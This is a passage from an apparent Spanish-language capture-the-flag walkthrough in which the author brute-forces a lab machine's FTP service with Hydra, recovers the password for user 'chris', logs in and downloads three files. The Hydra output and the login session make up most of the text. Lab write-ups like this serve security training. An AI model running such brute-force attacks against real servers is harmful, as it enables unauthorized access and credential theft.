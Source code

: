 ```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-03 21:13:43
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking ftp://10.10.94.107:21/
[STATUS] 18.00 tries/min, 18 tries in 00:01h, 14344381 to do in 13281:51h, 1 active
[STATUS] 18.00 tries/min, 54 tries in 00:03h, 14344345 to do in 13281:49h, 1 active
[STATUS] 17.29 tries/min, 121 tries in 00:07h, 14344278 to do in 13830:35h, 1 active
[21][ftp] host: 10.10.94.107   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-03 21:28:11
```
Con esto, habremos obtenido las credenciales del usuario 'chris', lo que nos permitirá acceder al servidor FTP
```bash
username: chris
password: crystal
```
```bash
└─$ ftp 10.10.168.111
Connected to 10.10.168.111.
220 (vsFTPd 3.0.3)
Name (10.10.168.111:jose): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
En el servidor FTP nos encontramos con tres archivos. Para poder trabajar mejor con ellos, vamos a descargarlos a nuestra máquina utilizando el comando 'mget *'
```bash
ftp> ls
229 Entering Extended Passive Mode (|||33723|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||29754|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |****************************************************************************************************************|   217       89.90 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (3.59 KiB/s)
mget cute-alien.jpg [anpqy?]? 
229 Entering Extended Passive Mode (|||43803|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |****************************************************************************************************************| 33143      503.83 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (246.92 KiB/s)
mget cutie.png [anpqy?]? 
229 Entering Extended Passive Mode (|||35973|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |****************************************************************************************************************| 34842      530.29 KiB/s    00:00 ETA
226 Transfer complete.
```